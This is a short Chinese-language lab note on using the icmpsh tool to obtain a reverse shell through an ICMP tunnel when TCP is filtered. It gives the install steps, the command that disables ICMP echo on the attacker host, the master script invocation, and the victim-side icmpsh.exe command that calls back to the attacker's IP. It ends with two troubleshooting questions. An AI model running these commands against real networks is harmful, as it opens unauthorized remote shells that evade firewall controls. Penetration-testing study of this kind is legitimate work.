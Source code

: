 项目地址：[https://github.com/bdamele/icmpsh](https://github.com/bdamele/icmpsh)
### 背景
很多时候网络运维人员只会允许流量进入已知主机，端口和服务（在入口处过滤），当身处DMZ区域，通过TCP获取反向shell是不可能的，但是如果使用UDP（DNS隧道）或者icmp那么还是可以尝试
### ICMPSH
icmpsh是由python2 编写的，Linux 默认自带python2，但是无pip2，下载pip2()，然后下载项目(git clone )
```shell
// 下载pip2 
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
// 安装pip2，默认python 版本是python2
python get-pip.py
// 下载项目
git clone https://github.com/bdamele/icmpsh
```
### 使用方法
#### 条件

1. 攻击机关闭icmp回应包
2. 受害机能发送icmp包到攻击机



```shell
pip install impacket -i https://pypi.douban.com/simple
// 首先在攻击机上关闭icmp回显
sysctl -w net.ipv4.icmp_echo_ignore_all=1
// 其次，192.168.93.131是攻击机
python icmpsh_m.py 192.168.93.131 192.168.93.134
// 最后，在受害机执行
icmpsh.exe -t 192.168.93.131
```
![image.png](./ICMP隧道反弹shell.assets/2023_05_19_10_23_33_pERwybWN.png)



### 两个问题

1. 当前演示的环境是windows，那么受害机是Linux如何getshell ？

Linux 主机暂时未找到解决办法。。

2. 为什么使用虚拟机（NAT模式下），主机作为受害者却始终不能getshell ？

因为NAT模式是交换机NAT，从宿主机走出来的流量要先经过`192.168.93.1` 然后才能走到192.168.93.131(攻击机)，所以我们需要监听的是交换机的地址
![image.png](./ICMP隧道反弹shell.assets/2023_05_19_10_23_34_HxiklTGn.png)

